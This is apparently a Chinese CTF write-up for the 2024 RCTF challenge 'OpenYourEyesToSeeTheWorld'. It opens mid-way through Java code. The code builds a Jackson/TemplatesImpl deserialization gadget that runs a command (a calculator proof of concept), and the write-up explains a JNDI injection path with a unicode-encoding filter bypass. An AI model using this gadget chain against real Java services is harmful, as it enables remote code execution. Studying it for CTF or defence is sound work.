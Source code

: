 ```java  
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);    
    
        POJONode node = new POJONode(proxyObj);    
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);    
        setFieldValue(val,&#34;val&#34;,node);    
        System.out.println(serialize(val));    
    }    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
    public static byte[] getTemplates() throws CannotCompileException, IOException, NotFoundException {    
        ClassPool classPool = ClassPool.getDefault();    
        // 生成一个随机的类名    
        String randomClassName = &#34;Test_&#34; &#43; UUID.randomUUID().toString().replace(&#34;-&#34;, &#34;&#34;);    
        CtClass ctClass = classPool.makeClass(randomClassName);    
        ctClass.setSuperclass(classPool.get(&#34;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet&#34;));    
        String block = &#34;Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;);&#34;;    
        ctClass.makeClassInitializer().insertBefore(block);    
        return ctClass.toBytecode();    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411171713490.png)
# 2024RCTF-OpenYourEyesToSeeTheWorld  
## 0x01 解题记录  
通过源码，得知是 JNDI 注入  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411172258179.png)
这里动态调试一下`search()`函数  
进入到`p_search()`方法中  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411191609995.png)
进入到`p_resolveIntermediate()`方法中  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411191610271.png)
进入到`c_resolveIntermediate_nns()`方法中，就可以看到`c_lookup()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411191611594.png)
跟进就可以看到有`decodeObject()`方法进行反序列化  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411191612766.png)
进入到`c_resolveIntermediate_nns()`方法的前提是`Head`或者`Tail`不为空即可，这里有过滤，但支持`unicode`解码，所以可以利用`unicode`编码绕过  
这里直接用`Jackson`的链子  
https://github.com/kxcode/JNDI-Exploit-Bypass-Demo  
构造`exp`  
```java  
import com.fasterxml.jackson.databind.node.POJONode;    
```